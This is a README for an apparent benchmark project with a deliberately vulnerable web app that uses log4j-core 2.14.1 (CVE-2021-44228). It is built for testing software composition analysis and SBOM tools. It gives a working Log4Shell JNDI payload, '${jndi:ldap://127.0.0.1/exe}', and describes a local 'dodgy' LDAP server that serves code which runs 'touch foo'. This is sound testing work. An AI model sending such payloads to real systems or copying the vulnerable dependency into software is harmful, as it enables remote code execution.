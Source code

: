 ## log4shell true positive

This is a simple web project with a log4shell vulnerability. 
The project defines a simple `scabench.HelloWorldService` get service returning a plain text string `hello world`.
The service does not expect parameters, and if parameters are encountered, an error 
is logged. 

The vulnerable dependency is [org.apache.logging.log4j:log4j-core:2.14.1](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.14.1), the vulnerability is [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). 


### Demonstrating the Vulnerability using a Test 

This requires unix or macos. It is easy to port this project to windows. 

A unit test is provided to demonstrate the vulnerability. The test requires a ldap server providing vulnerable code, the respective executable is provided by the project, it is defined in a separate project [https://github.com/jensdietrich/Log4J-RCE-Proof-Of-Concept](https://github.com/jensdietrich/Log4J-RCE-Proof-Of-Concept) based on [https://github.com/HyCraftHD/Log4J-RCE-Proof-Of-Concept](https://github.com/HyCraftHD/Log4J-RCE-Proof-Of-Concept).
The test fixture will handle startup and shutdown of the ldap server.

The test will create a file `foo` based on a command encoded embedded in the code of the ldap server the log4j connects to
(`touch foo`). This server can be controlled by an attacker. 

To run the test build the project with `mvn test`.

### Demonstrating the Vulnerability running the Application

1. start the embedded web server: `mvn jetty:run`
2. start the included the ldap server: `java -jar dodgy-ldap-server.jar` (the vulnerable copde will download Java code from this server)
3. point the browser to `http://localhost:8080/`, this site contains a pre-populated form with a malicious payload `${jndi:ldap://127.0.0.1/exe}`
4. submit this form
5. this will create a file `foo` on the server

### Running Software Composition Analyses

There are several sh scripts to run different analyses, result resports can be found in `scan-results`.

### Generating the SBOM

The `pom.xml` has a plugin to generate a [SBOM](https://www.cisa.gov/sbom) in [CycloneDX](https://cyclonedx.org/) format. 
To do this, run `mvn cyclonedx:makePackageBom`, the SBOM can be found in 
`target/` in `json` and `xml` format.

